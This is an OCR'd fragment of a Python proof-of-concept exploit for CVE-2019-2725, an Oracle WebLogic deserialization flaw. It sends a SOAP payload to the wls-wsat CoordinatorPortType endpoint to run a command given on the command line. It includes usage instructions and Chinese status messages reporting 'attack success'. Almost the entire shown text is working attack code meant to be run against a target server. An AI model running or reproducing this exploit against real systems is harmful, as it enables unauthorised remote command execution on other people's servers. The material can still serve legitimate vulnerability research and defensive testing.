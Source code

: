 ```python
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>"""

    headers = {
        'Content-Type': 'text/xml; charset=UTF-8',
        'SOAPAction': '',
        'User-Agent': 'Mozilla/5.0 (compatible; CVE-2019-2725-PoC)'
    }
  
    # 尝试wls-wsat路径
    wsat_url = f"{target_url}/wls-wsat/CoordinatorPortType"
  
    try:
        print(f"[*] 攻击目标: {wsat_url}")
        print(f"[*] 执行命令: {command}")
  
        response = requests.post(
            wsat_url, 
            data=soap_payload, 
            headers=headers, 
            timeout=10
        )
  
        print(f"[+] HTTP状态码: {response.status_code}")
        print(f"[+] 响应长度: {len(response.text)} 字节")
  
        if response.status_code == 500:
            print("[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)")
            return True
        elif response.status_code == 200:
            print("[+] 请求被处理 (需要进一步验证)")
            return True
        else:
            print(f"[-] 攻击失败，状态码: {response.status_code}")
            return False
  
    except requests.RequestException as e:
        print(f"[-] 请求失败: {e}")
        return False

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python3 manual_exploit.py <target_url> <command>")
        print("Example: python3 manual_exploit.py http://10.37.133.3:7001 'id'")
        sys.exit(1)
  
    target = sys.argv[1]
    cmd = sys.argv[2]
  
    exploit_cve_2019_2725(target, cmd)
```

